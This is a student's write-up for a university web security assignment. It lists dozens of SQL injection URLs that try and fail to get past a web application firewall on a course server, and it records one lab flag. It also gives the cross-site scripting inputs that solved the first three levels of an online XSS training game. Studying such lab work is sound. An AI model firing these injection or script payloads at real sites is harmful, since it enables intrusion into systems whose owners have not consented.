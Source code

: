 # Writeup 1 - Web I

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas


### Part 1 (40 Pts)

Such a Quick Little, website!  [http://142.93.136.81:5000/](http://142.93.136.81:5000/)

I wasn't able to find a way to obtain the flag despite a good hint from an instructor. There's a WAF (Web App Firewall) active on the server that I'm not able to find a way to bypass in the time allotted.

Some URL strings that I tried were the following (with some comments):

~~~~
http://142.93.136.81:5000/item?id=OR'1'='1'
http://142.93.136.81:5000/item?id=1&NOT('1'!='1')
http://142.93.136.81:5000/item?id=0&!(1!=1)
http://142.93.136.81:5000/item?id=R O{$id} 1=1;--
http://142.93.136.81:5000/item?id=R "O{$id}" 1=1;--
http://142.93.136.81:5000/item?id=R"O{$id}"1=1;--
http://142.93.136.81:5000/item?id=1OR"O{$id}"1=1;--
http://142.93.136.81:5000/item?1=1&id=1&1=1
http://142.93.136.81:5000/item?1 OR 1&id=1;--
http://142.93.136.81:5000/item?1&id=1;--
http://142.93.136.81:5000/item?1&id=1
http://142.93.136.81:5000/item?1&id=1&1OR1
http://142.93.136.81:5000/item?1&id=1 OR 1=1
~~~~

Basic ideas were tried above, some of which triggered the WAF. It was hoped that using the PHP `$` with variable names can result in bypassing it the WAF.

~~~~
http://142.93.136.81:5000/item?id=0 {$name[1]}{$name[2]} 1=1;--
http://142.93.136.81:5000/item?id=0 $name[1]$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 $name{2}$name{3} 1=1;--
http://142.93.136.81:5000/item?id=0 $name{0}$name{2} 1=1;--
http://142.93.136.81:5000/item?id=0 "$name{1}$name{2}" 1=1;--
http://142.93.136.81:5000/item?id=0&$name[1]$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 O$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 O$name[3] 1=1;--
http://142.93.136.81:5000/item?id=0 $name[1]R 1=1;--
http://142.93.136.81:5000/item?id=0 $name[2]R 1=1;--
http://142.93.136.81:5000/item?id=0 $name[3]R 1=1;--
http://142.93.136.81:5000/item?id=O {$id}R 1=1;--
http://142.93.136.81:5000/item?id=0 and $name{1}$name{2} 1=1;--
~~~~

This is a continuation of utilizing `$`. A nonsensical reference of `$name[1]` was tried since the name field started with `Fortnite` (the word OR is embedded).

~~~~
http://142.93.136.81:5000/item?id=0 " . " OR 1=1;--"
http://142.93.136.81:5000/item?id=0 " . echo \'O\' . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . echo "O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R 1=1;---"
http://142.93.136.81:5000/item?id=0 "."O"."R 1=1;--"
http://142.93.136.81:5000/item?id=2 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=1 O\0x52 1=1;--"
http://142.93.136.81:5000/item?id=1 O\x52 1=1;--"
http://142.93.136.81:5000/item?id=0 O\122 1=1;--"
http://142.93.136.81:5000/item?id=0 O\R 1=1;--"
http://142.93.136.81:5000/item?id=0 Or 1=1;--"
http://142.93.136.81:5000/item?id=0 \OR 1=1;--"
http://142.93.136.81:5000/item?id=0 \O\x52 1=1;--"
http://142.93.136.81:5000/item?id=1 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=1 O" "R 1=1;--"
http://142.93.136.81:5000/item?id=0 OR 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O_R 1=1;--"
http://142.93.136.81:5000/item?id=0 ORO 1=1;--
http://142.93.136.81:5000/item?id=0 " . $name[2] . $name[3] ." 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R" ." 1=1;--"
http://142.93.136.81:5000/item?id=0 O{$chr(0x52)} 1=1;--"
http://142.93.136.81:5000/item?id=0 O{$chr(82)} 1=1;--"
http://142.93.136.81:5000/item?id=0 . O{$chr(82)} . 1=1;--"
http://142.93.136.81:5000/item?id=0 {$name[1]}{$name[2]} 1=1;--"
http://142.93.136.81:5000/item?id=0 $OR 1=1;--"
http://142.93.136.81:5000/item?id=0 \O\R 1=1;--
http://142.93.136.81:5000/item?id=0 O{$nul}R 1=1;--
http://142.93.136.81:5000/item?id=0 OQ%08R 1=1;--
http://142.93.136.81:5000/item?id=0 O{$_}R 1=1;--
http://142.93.136.81:5000/item?id=0 O/R 1=1;--
http://142.93.136.81:5000/item?id=0 O.R.1=1;--
http://142.93.136.81:5000/item?id=0 CHAR(79)CHAR(82) 1=1;--
http://142.93.136.81:5000/item?id=999999999999999999999999999999999
http://142.93.136.81:5000/item&1=1
http://142.93.136.81:5000/item?id=$PHP_MINOR_VERSION
http://142.93.136.81:5000/item?id=0 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 O#R 1=1;--
http://142.93.136.81:5000/item?id=0&O##R&1=1;--
http://142.93.136.81:5000/item?id=0+O##R+1=1;--
http://142.93.136.81:5000/item?id=0+O%%R+1=1--
http://142.93.136.81:5000/item?id=0 \O\R 1=1; --
~~~~

Finally a few more ideas were tried as shown above, such as utilizing escape sequences like `0x52` and the SQL `CHAR()` function.  Interestingly using `$PHP_MINOR_VERSION` triggered the WAF while a shorter `$PHP_MIN` did not. Bypassing the WAF was also attempted by using `#` or `%`.

For many of these a space character may have been needed between the the semicolon and comment, ie, `; --`.

There is a flag obtainable on the main web page via port 80 of the same server (`CMSC389R-{h1dd3n_1n_plain_5ight}`), however that's not part of this assignment.

### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

The following inputs were used:

~~~~
<script>alert('Hi');</script>

<p onclick="alert('Hi');">Hi</p>

https://xss-game.appspot.com/level3/frame#2.jpg'/><script>alert('Hi');</script>
~~~~

Level 1 just needed javascript within an html `<script>` tag.

Level 2 displayed an element and a `<script>` tag couldn't be used. The `onclick` attribute was tried and worked.

Level 3 required an image tag to be terminated. By right-clicking on the resulting broken image icon and selecting View Image, the proper syntax to use was shown, and with some trial and error a string with starting `'/><script>` was found to work.

Level 4 I think utilized the moustache javascript library (or similar) so some way to escape the javascript code had to be found, which I was not able to in the time allotted to reach the next level.
